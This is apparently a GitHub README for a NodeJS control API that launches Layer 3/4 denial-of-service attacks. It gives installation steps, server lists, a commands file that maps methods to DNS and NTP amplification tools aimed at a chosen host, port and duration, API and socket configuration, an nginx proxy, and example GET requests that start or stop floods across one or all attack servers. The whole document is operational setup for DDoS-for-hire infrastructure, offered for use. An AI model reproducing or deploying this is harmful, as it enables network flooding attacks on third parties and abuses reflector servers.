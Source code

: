 <h2>NodeJS API for Layer 3/4 attacks</h2>

<h3>Coded by forky (tg: ***@yfork***)</h3>

<h4>This API is very secure and fast (taking 2x the ping between API and backend, if the ping is 60ms it will take only 120ms to launch the attack)</h4>


<h1>Installation:</h1>

```sh
curl -sL https://deb.nodesource.com/setup_16.x | sudo bash -
sudo apt -y install nodejs
npm i express
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "alpha": {
        "name": "alpha",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "beta",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "DNS": "screen -dmS attack_${attack_id} ./dns_amp ${host} ${port} dns.txt 1 250000 ${time}",
    "NTP": "screen -dmS attack_${attack_id} ./ntp_amp ${host} ${port} ntp.txt 1 250000 ${time}",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```js
const api_port = 8888; //API Port
const socket_token = "SOCKET_TOKEN"; // TCP Socket token, use random numbers/letters
const api_key = "API_KEY"; // your API Key
const domain_lock = false; // lock api to only be used from a specific domain
const api_domain = 'example.com'; // your API domain (if domain_lock is set to true)
```

<h3>Update socket.js:</h3><br>

```js
const socket_port = 3000;
const socket_token = "SOCKET_TOKEN";
const allowed_ips = ['1.1.1.1'];
```

After that you upload socket.js to the attack servers and upload api.js, servers.json and commands.json to the API server
### Reverse Proxy

We recommend making a reverse proxy using Nginx to use your API:

```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:3000/api/attack;
    }
}
```

Replace `'http://backend:3000/api/attack'` with your API server URL

### Using the API

Send a GET request to the API using the required fields

GET `https://api.yourdomain.com/api/attack?host=1.1.1.1&port=80&time=120&method=DNS&server=alpha`

You can set &server=all to launch to all servers

You can stop attacks by sending a GET request to the API using &method=stop

GET `https://api.yourdomain.com/api/attack?host=1.1.1.1&port=80&time=120&method=stop&server=alpha`

